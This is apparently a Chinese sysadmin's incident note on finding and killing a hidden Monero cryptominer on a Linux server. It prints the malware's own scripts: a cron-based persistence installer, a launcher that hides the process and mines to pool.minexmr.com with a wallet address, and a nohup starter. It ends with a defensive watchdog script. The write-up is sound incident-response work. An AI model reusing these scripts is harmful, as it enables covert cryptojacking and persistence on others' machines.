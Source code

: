 # 查杀挖矿机进程md

```
[root@localhost]# top
```
查看到md（占用cpu近100%）的PID， 4444（假设是这个数字）
```
[root@localhost]# cd /proc/4444
[root@localhost 4444]# ll
-r--------. 1 Hazard Liulab        304 Nov 22 20:24 auxv
--w-------. 1 Hazard Liulab          0 Nov 22 20:24 clear_refs
-r--r--r--. 1 Hazard Liulab        414 Nov 22 20:24 cmdline
-rw-r--r--. 1 Hazard Liulab          3 Nov 22 20:24 comm
lrwxrwxrwx. 1 Hazard Liulab         15 Nov 22 20:24 cwd -> /lib/modules/.z
-r--------. 1 Hazard Liulab       3799 Nov 22 20:24 environ
lrwxrwxrwx. 1 Hazard Liulab         18 Nov 22 20:24 exe -> /lib/modules/.z/md
dr-x------. 2 Hazard Liulab       4096 Nov 22 20:24 fd
dr-x------. 2 Hazard Liulab       4096 Nov 22 20:24 fdinfo
-rw-------. 1 Hazard Liulab       1323 Nov 22 20:24 limits
-r--r--r--. 1 Hazard Liulab      16529 Nov 22 20:24 maps
-rw-------. 1 Hazard Liulab          0 Nov 22 20:24 mem
-r--r--r--. 1 Hazard Liulab       1489 Nov 22 20:24 mountinfo
-r--r--r--. 1 Hazard Liulab       1278 Nov 22 20:24 mounts
dr-x--x--x. 2 Hazard Liulab       4096 Nov 22 20:24 ns
-r--r--r--. 1 Hazard Liulab      10351 Nov 22 20:24 numa_maps
-r--r--r--. 1 Hazard Liulab 2823852032 Nov 22 20:24 pagemap
-r--r--r--. 1 Hazard Liulab          9 Nov 22 20:24 personality
lrwxrwxrwx. 1 Hazard Liulab          1 Nov 22 20:24 root -> /
-rw-r--r--. 1 Hazard Liulab       2403 Nov 22 20:24 sched
-r--r--r--. 1 Hazard Liulab     130825 Nov 22 20:24 smaps
-r--r--r--. 1 Hazard Liulab        233 Nov 22 20:24 stat
-r--r--r--. 1 Hazard Liulab         34 Nov 22 20:24 statm
-r--r--r--. 1 Hazard Liulab        936 Nov 22 20:24 status
-r--r--r--. 1 Hazard Liulab         67 Nov 22 20:24 syscall
```     
重点关注cmdline 和 exe,cwd 等  
cwd 指向 /lib/modules/.z (这个目录里放着挖矿的程序)  
exe指向 /lib/modules/.z/md (这个就是占用100%cpu的家伙)  
`[root@localhost 4444]# cat cmdline`      
`-bash -acryptonight-os tratum+tcp://pool.minexmr.com:7777`   
这里看到这些字样，pool.minexmr.com 基本上跟挖矿有关了   
```
[root@localhost 4444]# cd /lib/modules/.z/
[root@localhost .z]# ll
-rw-r--r--. 1 root root       0 Nov 23 15:40 $
-rwxr-xr-x. 1 root root     332 Oct  5 03:07 a
-rw-r--r--. 1 root root       1 Nov 23 18:07 bash.pid
-rwxr-xr-x. 1 1001 1001   15125 Feb 21  2016 h32
-rwxr-xr-x. 1 1001 1001  838583 Feb 21  2016 h64
-rwxr-xr-x. 1 root root 2979640 Jun 24 04:19 md
-rwxr-xr-x. 1 root root  168896 Sep 27 18:58 mdx
-rwxr-xr-x. 1 root root     533 Nov 19 22:41 run
-rw-r--r--. 1 root root    4833 Nov 23 16:24 screenlog.0
-rwxr-xr-x. 1 root root      24 Oct  5 02:45 x
```   
 h32,h64,md,mdx都是二进制文件  
 我们可以从a, run, x 三个文件里看到些端倪  
```
[root@localhost .z]# cat a 
pwd > dir.dir
dir=$(cat dir.dir)
echo "* * * * * $dir/upd >/dev/null 2>&1" > cron.d
crontab cron.d
crontab -l | grep upd
echo "#!/bin/sh
if test -r $dir/bash.pid; then
pid=\$(cat $dir/bash.pid)
if \$(kill -CHLD \$pid >/dev/null 2>&1)
then
exit 0
fi
fi
cd $dir
./run &>/dev/null" > upd
chmod u+x upd
rm -rf ../dwk.tgz
rm -rf ../z.sh
```
 cron.d 和 upd文件都没有找到，使用locate 命令，也没有搜索到，  
 使用kill 4444 之后，停几个小时，md会重新执行（即使给.z文件夹改名也没用，删除也没有用，还是会启动）  
  怀疑存在父进程，或定时任务，但是使用crontab -l 查看没有定时任务（无语）  
```
[root@localhost .z]# cat run  
#!/bin/bash

proc=`nproc`
ARCH=`uname -m`
HIDE="-bash"

if [ "$ARCH" == "i686" ];       then
        ./h32 -s $HIDE ./md -a cryptonight -o stratum+tcp://pool.minexmr.com:7777 -u 45MmwEsgnjtHynmvDDV8pbZJibfhFVjtV9cTaFW4H8N9hNZDpMoYr7J1ZCE3wJAjWN9Dj3iASPxtjEKNZEriwJjx2evayFY -p x >>$
elif [ "$ARCH" == "x86_64" ];   then
        ./h64 -s $HIDE ./md -a cryptonight -o stratum+tcp://pool.minexmr.com:7777 -u 45MmwEsgnjtHynmvDDV8pbZJibfhFVjtV9cTaFW4H8N9hNZDpMoYr7J1ZCE3wJAjWN9Dj3iASPxtjEKNZEriwJjx2evayFY -p x >>$
fi
echo $! > bash.pid
```
```
[root@localhost .z]# cat x
nohup ./a >>/dev/null &
```
-------------
# 暂时的解决方法
 无奈只能曲线救国，写了一个守护进程，一旦看到md运行就kill掉它   
 其中ps -ef 结果的第三列是父进程，为了追综始作俑者。  
 一般命令行运行的程序好像父进程是1？  
 
 把下面的代码复制到watchMD.sh中（记得改一下里面`file_name`的路径），  
 然后`nohup sh watchMD.sh &`即可每隔2s监控一次，碰到md就杀  
 改一下`proc_name`（支持正则表达式），可以神挡杀神
```
#!/bin/sh
proc_name="^md$" 
file_name="/data2/lzc/watchMD.log"

echo `date` = NUM = PID > $file_name
while true
do
 num=`pgrep -x "$proc_name" | wc -l`
 if [ 0 -lt $num ]
 then
    pid=`pgrep -x "$proc_name"`
    ps -ef | grep $pid | grep -v grep >> $file_name
    echo == >> $file_name
    par=(`ps -ef | grep $pid | grep -v grep | cut -f3`)
    ps -ef | grep ${par[0]} | grep -v grep >> $file_name
    echo ==== >> $file_name
    kill $pid
    echo `date` =  $num  = $pid >> $file_name
 fi
 sleep 2
done  
```
